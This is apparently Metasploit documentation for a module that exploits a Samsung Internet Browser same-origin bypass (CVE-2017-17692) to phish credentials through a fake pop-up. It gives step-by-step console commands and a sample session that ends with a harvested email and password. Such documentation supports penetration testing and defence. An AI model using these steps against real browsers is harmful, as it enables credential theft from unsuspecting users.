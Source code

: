 ## Description
This module takes advantage of a Same-Origin Policy (SOP) bypass vulnerability in the Samsung Internet Browser (CVE-2017-17692), a popular mobile browser shipping with Samsung Android devices. By default, it initiates a redirect to a child tab, and rewrites the innerHTML to gather credentials via a fake pop-up and the gather credentials is stored in `creds`

## Vulnerable Application
This Module was tested on Samsung Internet Browser 5.4.02.3 during development.

## Verification Steps
1. Start `msfconsole -q`
2. `use auxiliary/gather/samsung_browser_sop_bypass`
3. `set SRVHOST`
4. `set SRVPORT`
5. `set URIPATH`
6. `set TARGET_URL`
5. `run`

## Scenarios
```
$ sudo msfconsole -q
msf > use auxiliary/gather/samsung_browser_sop_bypass
msf auxiliary(samsung_browser_sop_bypass) > set SRVHOST 192.168.1.104
SRVHOST => 192.168.1.104
msf auxiliary(samsung_browser_sop_bypass) > set SRVPORT 9090
SRVPORT => 9090
msf auxiliary(samsung_browser_sop_bypass) > set URIPATH /
URIPATH => /
msf auxiliary(samsung_browser_sop_bypass) > set TARGET_URL https://www.google.com/csi
TARGET_URL => https://www.google.com/csi
msf auxiliary(samsung_browser_sop_bypass) > run
[*] Auxiliary module execution completed
msf auxiliary(samsung_browser_sop_bypass) >
[*] Using URL: http://192.168.1.104:9090/
[*] Server started.
[*] 192.168.1.101: Request 'GET /'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[+] 192.168.1.101: Collected credential for 'https://www.google.com/csi' emailID:MyStrongPassword

msf auxiliary(samsung_browser_sop_bypass) > creds
Credentials
===========

host            origin          service          public          private                                                            realm                       private_type
----            ------          -------          ------          -------                                                            -----                       ------------
                                                 emailID         MyStrongPassword                                                   https://www.google.com/csi  Password

msf auxiliary(samsung_browser_sop_bypass) >
```

## Demos

Working of MSF Module: `https://youtu.be/ulU98cWVhoI`

Vulnerable Browser: `https://youtu.be/lpkbogxJXnw`
